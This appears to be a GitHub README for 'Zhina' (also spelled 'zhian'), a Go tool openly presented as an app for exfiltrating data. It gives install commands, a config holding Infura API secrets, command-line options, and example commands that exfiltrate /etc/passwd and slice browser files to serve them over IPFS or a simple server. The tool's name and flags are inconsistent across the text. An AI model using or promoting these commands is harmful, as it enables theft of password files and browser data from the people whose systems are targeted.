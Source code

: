 ### Zhina



A simple app to exfiltration data with some features.



## Background

![zhina](zhina.png)


Zhina is a tools for exfiltration information and Dedicated to Mahsa Amini and all Iranian boys and girls


## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/HadessCS/zhina/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhian
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhian.git
   cd zhian
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhian runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64
--path string     Path to Exfiltrate
--serve type           How Exfiltrate
--version         Display version information
--help            Display help
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhian --do encode64 --path /etc/passwd` | Exfiltrate password file |
| `zhina --path browser --slice slice1M --serve ipfs` | Exfiltrate Browser Files with 1M slice and serve on ipfs |
| `zhina --path /etc/passwd --slice slice1M --serve simple` | Exfiltrate Browser Files with 1M slice and serve on simple |




